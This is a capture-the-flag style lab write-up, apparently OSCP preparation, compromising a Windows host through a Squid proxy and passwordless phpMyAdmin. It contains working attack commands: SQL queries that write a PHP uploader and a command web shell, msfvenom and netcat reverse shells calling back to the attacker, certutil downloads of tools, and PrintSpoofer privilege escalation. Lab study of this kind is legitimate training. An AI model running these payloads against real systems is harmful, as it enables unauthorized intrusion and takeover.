

**Start 10:10 06-11-2024**

```
Scope:
192.168.217.189
```
---
## Recon

==nmap==

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A -T5 -vvvv -p- 192.168.217.189 -Pn

Nmap scan report for 192.168.217.189
Host is up, received user-set (0.045s latency).
Scanned at 2024-11-06 04:11:02 EST for 190s
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3128/tcp  open  http-proxy    syn-ack Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 56422/tcp): CLEAN (Timeout)
|   Check 2 (port 34538/tcp): CLEAN (Timeout)
|   Check 3 (port 17164/udp): CLEAN (Timeout)
|   Check 4 (port 55185/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-11-06T09:13:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

==SMB==
Right away I notice that `445 - SMB` seems to be open which is on the top of my priorities for Windows machines. I go ahead and investigate it using various tools.

```bash
┌──(kali㉿kali)-[~]
└─$ smbmap -H 192.168.217.189                                                                   

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)
```

```bash
┌──(kali㉿kali)-[~]
└─$ enum4linux -U -S 192.168.217.189
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Nov  6 04:18:31 2024

 =========================================( Target Information )=========================================

Target ........... 192.168.217.189                                                                                 
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==========================( Enumerating Workgroup/Domain on 192.168.217.189 )==========================

[E] Can't find workgroup/domain                                                

 ==================================( Session Check on 192.168.217.189 )==================================

[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.
```

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.217.189                                                                
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

Since I was not able to get an anonymous session I tried one of the other ports first to gain more information on possible creds.


## 3128/TCP - HTTP

I went to the website and found the following page:


Nothing of great significance, however I did notice that it is running on `Squid 4.14`. So I decided to do some research:


`Squid` appears to be a HTTP web proxy service thatwe can try and abuse. According to [this](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid) blog I tried to use `curl -x` to set the port as the proxy and try to reach the host that way:


Unfortunately that did not work so I had to try something else. Scrolling down on the same blog post I find the following:


I went ahead and downloaded the `spose.py` scanner to my attacker host from [here](https://github.com/aancw/spose).
I then ran it against the host and waited for the results:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 spose.py --proxy http://192.168.217.189:3128 --target 192.168.217.189
```

And got the following results:


2 new open ports have been found!

```
3306
8080
```

After using `curl` once more I found the following juicy info:


It seemed to work! Amidst the response there was also the following:

```html
<h2> Server Configuration </h2>
                <dl class="content">
                        <dt>Apache Version:</dt>
                            <dd>2.4.46&nbsp;&nbsp;-&nbsp;<a href='http://httpd.apache.org/docs/2.4/en/'>Documentation</a></dd>
                        <dt>Server Software:</dt>
                            <dd>Apache/2.4.46 (Win64) PHP/7.3.21&nbsp;-&nbsp;Port defined for Apache: </dd>
                        <dt>PHP Version:</dt>
                            <dd>7.3.21&nbsp;&nbsp;-&nbsp;<a href='http://www.php.net/manual/en/'>Documentation</a></dd>
```

It seems to be running an `Apache 2.4.46` server on port `8080`. Furthermore it also seems to be running a `MySQL` server on port `3306` according to the following lines:

```html
<dt>MySQL Version:</dt>
        <dd>5.7.31&nbsp;-&nbsp;Port defined for MySQL: 3306&nbsp;-&nbsp;
```

I got the version as well as port for it. I now had to prioritize which port I was going to investigate first.

I decided to go with the `MySQL` port first and found [the following info](https://www.exploit-db.com/exploits/40678) on this and other versions:


This looks promising but we'd need a way to upload it first. So I settled on changing my `proxy`
settings via `FoxyProxy` to the target IP so I could go ahead and access port `8080`.


## 8080/TCP - HTTP (Proxy)

I changed the proxy settings like so:


And then went to the `target_ip:8080`:


Just like that I got access!

I clicked on the `phpmyadmin` in the **Tools** tab on the bottom left and got the following screen:


I tried some cred combo's until I was able to login with just `root` and no password:


I also found more users with the **User accounts** tab:


>[!danger]
>Squid, acting as a *reverse proxy*, allows unauthenticated access to an internal Wamp server and PhpMyAdmin interface. The PhpMyAdmin interface is configured with *passwordless* login for the root user, allowing an attacker to create files in the web root, which can lead to code execution.


==SQL Injecting Payload==
From here we can thus go ahead and try to upload a reverse shell via the interface. I found a SQL query matching our description:


```sql
SELECT
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

After using this query we should be able to upload our reverse shell into it.


After clicking **Go** I then went ahead to the `http://target_ip:8080/uploader.php` page:


I now could go ahead and upload any reverse shell, I will use the `pentestmonkey` shell in this case:


Simultaneously I start up my listener:

```bash
nc -lvnp 1234
```

Unfortunately enough I ran into an error when going to the `/php-reverse-shell.php` endpoint:


>[!bug]
>I did see a response in my own terminal, meaning I did receive a connection. I just need to upload a different shell for this to work properly.

```bash
msfvenom -p php/reverse_php LHOST=192.168.45.234 LPORT=1234 -f raw -o shell.php
```


Now I went ahead and uploaded this shell again to the `/uploader.php` endpoint:


This time I in fact did see a response!

==Stabilize Shell==
Unfortunately enough the shell gets dropped after some time, meaning we need to find a way to stabilize it so it stays up. I had to look externally to find some knowledge on how to do this.

I took the following steps:

```bash
1. Copy over nc.exe to current dir

┌──(kali㉿kali)-[~]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .

2. Copy over smbserver.py to current dir

┌──(kali㉿kali)-[~]
└─$ cp /usr/share/doc/python3-impacket/examples/smbserver.py .

3. Run smbserver.py with random creds to server up file after afterwards

┌──(kali㉿kali)-[~]
└─$ python smbserver.py -smb2support -username evil -password evil evil $PWD
```


I left this terminal running.

I then went ahead and started another listener:

```bash
nc -lvnp 1235
```

Now I quickly went ahead through the upload again and issued the following commands from the terminal which got the **FIRST** reverse shell:

```powershell
net use z: \\192.168.45.234\evil /user:evil evil

Z:\nc.exe 192.168.45.234 1235 -e cmd.exe
```

I then got the connection in my other terminal on port `1235` aka my **SECOND** shell.


In the `smbserver.py` terminal I was able to follow the whole execution method:


I would now only have to use the `1235` terminal to issue commands.

==local.txt==
This one was found in the directory that I landed in.


# Post Exploitation Enum

>[!important]
>I first wanted to skip this step and go ahead and look for the `proof.txt` flag but instead went and enumerated all the necessary stuff.

## OS Info

```powershell
C:\> systeminfo

Host Name:                 SQUID
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-70000-00000-AA896
Original Install Date:     5/28/2021, 2:52:51 AM
System Boot Time:          8/1/2024, 8:01:42 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2650 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.21100432.B64.2301110304, 1/11/2023
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 455 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 681 MB
Virtual Memory: In Use:    1,750 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 11 Hotfix(s) Installed.
                           [01]: KB5007295
                           [02]: KB4512577
                           [03]: KB4535680
                           [04]: KB4577586
                           [05]: KB4589208
                           [06]: KB5003243
                           [07]: KB5003711
                           [08]: KB5005112
                           [09]: KB5007206
                           [10]: KB5006754
                           [11]: KB5005701
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.217.189
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```


## User Info

```powershell
C:\>net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
WDAGUtilityAccount       
The command completed with one or more errors.
```

Here I noticed that there would probably not be a `proof.txt` flag since the only important account was the `Administrator`.


## Local Groups

```powershell
C:\>net localgroup

Aliases for \\SQUID

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Storage Replica Administrators
*System Managed Accounts Group
*Users
The command completed successfully.
```

No unusual localgroups at first glance.

Unfortunately enough the enumeration yielded no specific caveats for me.


# Priv Esc

The only interesting thing I had found is the account I'm logged in as:

```
nt authority\local service
```

I tried to look up how to escalate privileges as that account:


As well as the [following blog](https://itm4n.github.io/localservice-privileges/):


After skimming through the blog I found this at the bottom:


The writer made a PoC according to this vulnerability:


>[!Bug]
>For whatever reason I ran into some trouble using this method so instead I opted for another SQL query where I could issue commands from the URL bar.

==SQL Injection Payload Alt==
I entered the following query:

```SQL
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
```


```
shell1.php?cmd=certutil -urlcache -f http://192.168.45.230:8001/nc.exe nc.exe
```


This basically gave me the exact same shell as `nt authority\local service`. I now still had to do the same basically as before. 

>[!note]
>Target_IP and host_IP can vary because of multiple restarts from different computers.

I created a nested reverse shell in case one of them died (ctrl + c):


Now I still had to change my privileges again to **system** in order to fully exploit the target.

So I went ahead and downloaded the `FullPowers` zip file from [the github page](https://github.com/itm4n/FullPowers) and went ahead and loaded it onto the target:


```powershell
certutil -urlcache -f http://192.168.45.230:80/FullPowers.exe FullPowers.exe
```


As per the instructions I then went ahead and Issued the command as follows:

```powershell
FullPowers.exe -x
```


Unfortunatelly that command did not work as expected as I did not get the correct privileges.


I instead opted for another command which DID give me the correct privileges:

```powershell
FullPowers.exe -c "powershell -ep Bypass"
```


I now have so called **impersonation privileges** but I still do **NOT** have **system** privileges. 
Meaning I still did not have access to the flag:


This meant that I had to dig even deeper.`

The important one to look at is the `SeImpersonatePrivilege` so I looked up how to go from that one to **SYSTEM**:


Here I found multiple so called `potatoes` as well as yet another blog by [itm4n](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) which I checked out:


Down at the bottom was yet again the [GitHub link](https://github.com/itm4n/PrintSpoofer) to the required tool for the job:



And again we transfer the tool over to the machine:

```powershell
certutil -urlcache -f http://192.168.45.230:80/PrintSpoofer64.exe PrintSpoofer64.exe
```


Now I FINALLY had **SYSTEM** privileges and rooted the target.

==proof.txt==


>[!summary]
>Quite difficult for an "easy" level box and I had to look for external help quite often but in the end I did manage to do a lot of stuff myself.

---
**Finished 21:18 06-11**

[^Links]: [[OSCP Prep]]

#Windows #SQLi 